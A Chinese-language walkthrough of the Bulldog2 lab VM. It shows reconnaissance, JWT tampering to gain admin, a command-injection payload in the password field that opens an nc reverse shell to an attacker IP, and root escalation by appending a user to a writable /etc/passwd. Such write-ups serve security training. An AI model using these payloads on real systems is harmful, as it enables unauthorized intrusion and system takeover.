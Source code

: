 

# bulldog2渗透实战

![image-20210919154708995](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919154708995.png)



```
masscan --rate=10000 --ports 0-65535 192.168.100.154
```

![image-20210919154533322](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919154533322.png)

```
whatweb 192.168.100.154
```

![image-20210919154605033](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919154605033.png)

```
dirsearch  -u http://192.168.100.154
```

![image-20210919155310177](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919155310177.png)

- 根据扫描到的目录，没有发现什么可用的信息，继续探索；
- 查看前端代码，发现首页调用了四个js文件，我们可以分别进行访问；
- 我们查看页面的时候，发现页面上角有个注册功能，但是不能进行注册；
- （猜测：如果可以注册成功的话，就可以进行登录）



- 尝试在美化后的js文件中使用Register关键字进行搜索

http://192.168.100.154/main.8b490782e52b9899e2a7.bundle.js

![image-20210919160857795](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919160857795.png)

- 可以发现注册所需的信息为四条，name、email、username、password，
- 我们可以根据这四条信息进行模拟注册；

>  **使用Burpsuite抓包进行注册账号；**

![image-20210919161332309](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919161332309.png)

![image-20210919161627715](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919161627715.png)

## 注册成功

![image-20210919161743928](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919161743928.png)



- 登录账户的用户名都会在链接中显示，

- 将链接中的用户名更改后就可以直接登录到另外的账户；
- 尝试水平越权,但是这几个账户都没有什么可以利用的信息；

>  通过Burpsuite抓包查看服务器回包的信息

![image-20210919162631497](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919162631497.png)

- 返回包 带有一个JWT开头的token字段；这个token传递了什么信息呢；
- JWT（Json Web Token）的声明，一般用于身份提供者和服务提供者间，
- 来传递被认证的用户身份信息，以便从资源服务器获取资源，
- 也可以增加一些额外的其他业务逻辑所必须的声明信息
- 该token也可直接被用于认证或被加密；

##  **查看token信息**

[jwt解密](https://jwt.io/)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwYXlsb2FkIjp7Im5hbWUiOiIxMTEiLCJlbWFpbCI6IjIyMiIsInVzZXJuYW1lIjoieGlhbyIsImF1dGhfbGV2ZWwiOiJzdGFuZGFyZF91c2VyIn0sImlhdCI6MTYzMjAzOTg3NywiZXhwIjoxNjMyNjQ0Njc3fQ.67NR-n9OGYI-Wxq0oOjVLjW7bRjFTHW1E4VgfGq3zME
```

![image-20210919163441104](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919163441104.png)

>  可以看到有个auth_level的参数，通过名字可以看出是关于用户权限的，
>
> 我们可以使用这个参数去在js文件中进行搜索；auth_level

![](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919163854306.png)

> 将回包中的standard_user替换成master_admin_user；将回包中的编码替换；

![image-20210919164538034](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919164538034.png)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwYXlsb2FkIjp7Im5hbWUiOiIxMTEiLCJlbWFpbCI6IjIyMiIsInVzZXJuYW1lIjoieGlhbyIsImF1dGhfbGV2ZWwiOiJtYXN0ZXJfYWRtaW5fdXNlciJ9LCJpYXQiOjE2MzIwMzk4NzcsImV4cCI6MTYzMjY0NDY3N30.9qtAv37t4szJADxnXwb3PKldhZkj55olOMNRJmdwhkI
```

## 退出账号并重新登录

**抓包——>Do intercept——>response to this request；**

然后forward，获取如下页面，复制修改后的新编码替换原来的编码，

注：后面明文处也要修改成“master_admin_user”，然后一直forward；

![image-20210919165624692](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919165624692.png)

# 此时，登录上去的账号为admin

![image-20210919165701795](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919165701795.png)

## 修改密码处存在命令执行漏洞，获取shell

- 密码不正确，但是服务器返回的状态码依然是200；
- 可以发现页面返回的状态码是200，但是最后一行显示的是false；

![image-20210919165943879](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919165943879.png)

## 直接在修改密码处执行漏洞拿反弹shell；

![image-20210919170905380](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919170905380.png)

```
"password": "111 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.100.143 1234 >/tmp/f;"
```

## kali

```
nc -lvp 1234  
```

 ![image-20210919171013784](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919171013784.png)

## 成功获取到shell后，就需要进行提权操作

```
cd /etc
ls -la |grep passwd
```

![image-20210919182501195](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919182501195.png)

- 查看passwd文件的权限；可以看到权限为777
- 添加一个新的具有root权限的账户；

```
python -c 'import pty; pty.spawn("/bin/bash")';
perl -le 'print crypt("pass", "aa")'
```

![image-20210919182809769](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919182809769.png)

> 其中，pass为加密的密码；aa表示使用的加密盐（可以有aa,sa,Fx等）

> 如果不使用加密盐，那么输出的字符串将不是crypt加密格式，而是MD5加密格式的。

> 所以，加密盐其实是必须的参数

## 将新创建的用户写到passwd文件中；

```shell
echo 'xiu:aaW3cJZ7OSoQM:0:0:xyz:/root:/bin/bash' >>passwd
```

![image-20210919183225929](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210919183225929.png)



1. 一般情况下，如果网站没有发现什么可利用的目录，就可以尝试**查看js页面**，一般会有突破口；
2. 如果一个页面输入的用户名或密码错误，但是返回的状态码依然是200的话，就可以尝试进行**命令执行漏洞**，获取shell；
3. 如果**普通用户**权限对/etc/passwd文件有**写**权限，我们就可以提权时创建一个新用户（perl -le 'print crypt("pass","aa")'），将其以root用户的格式写入/etc/passwd文件中，然后su 创建的用户 就可以提权成功；

